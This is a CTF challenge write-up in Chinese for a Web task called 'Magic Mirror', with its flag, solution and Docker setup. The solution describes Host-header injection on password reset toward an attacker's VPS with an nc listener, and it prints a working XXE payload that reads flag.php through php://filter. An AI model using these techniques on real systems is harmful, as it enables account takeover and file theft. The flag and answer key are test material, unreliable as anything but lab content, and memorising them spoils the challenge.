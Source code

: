 ### 题目类型：Web


#### 中等难度级别题目：

##### 题目名称：
Magic Mirror

##### 题目说明：
不要被表象欺骗，钥匙就藏在数据包中

##### 解题考点：
Host注入修改(注册)密码，进入后台XXE

##### 题目Flag：
D0g3{Hi_D0g3_Res3t_4nd_xXe}  【格式：D0g3{}】

##### 解题思路：
找回密码处抓包，修改host为自己vps的ip:port
在vps用nc 监听ip:port
进入后台后xxe注入
exp:
<?xml version="1.0" encoding="utf-8"?>

<!DOCTYPE entity [
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php">
]>
<information>
  <username>&xxe;</username>
</information>

##### 环境搭建文档
	配置过程
	(1). 下载docker镜像 docker pull d0g3/axb-magic-mirror
	(2). 运行镜像 docker run -d -p 8088:80  --name d0g3_magic d0g3/axb-magic-mirror
	(3). 进入镜像 docker exec -ti d0g3_magic /bin/bash
	(4). 数据库配置
	use mysql;
	UPDATE user SET password=PASSWORD('d0g3root123') WHERE user='root';
	FLUSH PRIVILEGES;
	
	// 创建库、表
	create database d0g3;
	use d0g3;
	create table d0g3_users(id int(8) not null primary key auto_increment,username char(20) not null, password char(60) not null);
	
	开放端口: 8088




